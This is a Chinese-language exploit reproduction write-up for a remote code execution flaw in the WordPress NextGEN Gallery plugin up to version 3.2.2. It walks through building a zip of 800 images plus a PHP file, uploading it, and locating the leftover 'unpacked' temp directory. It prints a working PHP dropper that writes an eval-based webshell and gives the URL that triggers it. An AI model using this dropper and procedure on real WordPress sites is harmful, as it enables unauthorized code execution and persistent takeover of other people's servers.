


# WordPress Plugin - NextGEN Gallery <= 3.2.2 RCE

> 原文：[http://book.iwonder.run/0day/Wordpress/15.html](http://book.iwonder.run/0day/Wordpress/15.html)

## 一、漏洞简介

WordPress 插件 NextGEN Gallery <= 3.2.2 版本将上传的 zip 压缩包解压到/wp-content/uploads 目录下的临时目录，该临时目录具有显著特点：以 unpacked 开头。

当 zip 压缩文件包含大量图片时将导致处理进程崩溃，而临时目录没有删除。如果在 zip 压缩包中放置一个 php 文件，那么该 php 文件会被解压到临时目录造成 RCE 漏洞。

官方在 2019 年 6 月 4 日发布了 3.2.4 版本修复了漏洞。

## 二、漏洞影响

## 三、复现过程

### 第 1 步：制作 Zip 压缩包

我制作了一个包含 800 张图片和 1 个恶意 php 文件（abc233.php）的 zip 压缩包，图片都是几 KB 的小图片，恶意 php 文件的功能是往上级目录写入 webshell，abc233.php 文件内容如下：

```
<?php
    file_put_contents('../webshell666.php', '<?php @eval($_REQUEST["cmdx"]);?>');
?> 
```

### 第 2 步：上传 zip 压缩包

点击“Add Gallery / Images”然后上传 zip 压缩包。


### 第 3 步：查看临时目录

点击“import folder”，再点击“uploads”即可看到解压的临时目录。



### 第 4 步：生成 webshell

访问临时目录下的 abc233.php 文件即可在/wp-content/uploads 目录下生成 webshell。

```
http://0-sec.org/wp-content/uploads/unpacked-phpA0CB.tmp/abc233.php 
```




